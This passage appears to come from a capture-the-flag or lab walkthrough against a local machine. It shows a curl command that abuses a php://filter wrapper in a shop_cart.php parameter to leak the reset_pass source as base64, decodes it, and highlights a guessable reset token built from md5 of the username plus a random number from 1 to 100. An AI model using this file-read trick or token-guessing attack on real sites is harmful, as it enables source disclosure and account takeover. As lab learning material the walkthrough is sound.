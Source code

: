 ```php
[...]

</body>

</html> 
```

`curl "http://192.168.56.132/shop_cart.php?action=php://filter/convert.base64-encode/resource=reset_pass" -b "PHPSESSID=lmuhnvetfqp9615v0l6b5vst91" -s`:
```html
<html>

[...]

PD9waHAKcmVxdWlyZV9vbmNlICIuL2NvbmZpZy5waHAiOwoKJGVycm9yID0gZmFsc2U7CiRkb25lID0gZmFsc2U7CiRjaGFuZ2VfcGFzcyA9IGZhbHNlOwoKc2Vzc2lvbl9zdGFydCgpOwoKJHVzZXJuYW1lID0gbnVsbDsKCmlmICgkX1NFUlZFUlsnUkVRVUVTVF9NRVRIT0QnXSA9PT0gJ1BPU1QnKSB7CiAgICAkdXNlcm5hbWUgP

[...]

ICAgICAgICAgICAgIGVjaG8gIjxwIGNsYXNzPSdlcnJvcic+Q2hlY2sgbGluayBpbiBlbWFpbDwvcD4iOwogICAgICAgICAgICB9CiAgICAgICAgICAgID8+CiAgICAgICAgPC9mb3JtPgogICAgPC9tYWluPgo8L2JvZHk+Cgo8L2h0bWw+ 

[...]

</html> 
```

`echo "PD9waHAKcmVxdWlyZV9vbmNlICIuL2NvbmZpZy5waHAiOwoKJGVycm9yID0gZmFsc2U7CiRkb25lID0gZmFsc2U7CiRjaGFuZ2VfcGFzcyA9IGZhbHNlOwoKc2Vzc2lvbl9zdGFydCgpOwoKJHVzZXJuYW1lID0gbnVsbDsKCmlmICgkX1NFUlZFUlsnUkVRVUVTVF9NRVRIT0QnXSA9PT0gJ1BPU1QnKSB7CiAgICAkdXNlcm5hbWUgP [...] ICAgICAgICAgICAgIGVjaG8gIjxwIGNsYXNzPSdlcnJvcic+Q2hlY2sgbGluayBpbiBlbWFpbDwvcD4iOwogICAgICAgICAgICB9CiAgICAgICAgICAgID8+CiAgICAgICAgPC9mb3JtPgogICAgPC9tYWluPgo8L2JvZHk+Cgo8L2h0bWw+" | base64 -d`:
```php
<?php
require_once "./config.php";

$error = false;
$done = false;
$change_pass = false;

session_start();

$username = null;

if ($_SERVER['REQUEST_METHOD'] === 'POST') { ←
    $username = $_POST['username'];

    $query = $conn->prepare("SELECT * FROM users WHERE user = ?"); ←
    $query->bind_param("s", $username);

    $query->execute();
    $result = $query->get_result();

    if ($result->num_rows == 1) { ←
        while ($row = $result->fetch_assoc()) {
            $name = $row['user']; ←
            $randomNumber = rand(1, 100); ←
            $nameWithNumber = $name . $randomNumber; ←
            $md5Hash = md5($nameWithNumber); ←
            $base64Encoded = base64_encode($md5Hash); ←

            $deleteQuery = $conn->prepare("DELETE FROM pass_reset WHERE user = ?");
            $deleteQuery->bind_param("s", $name);
```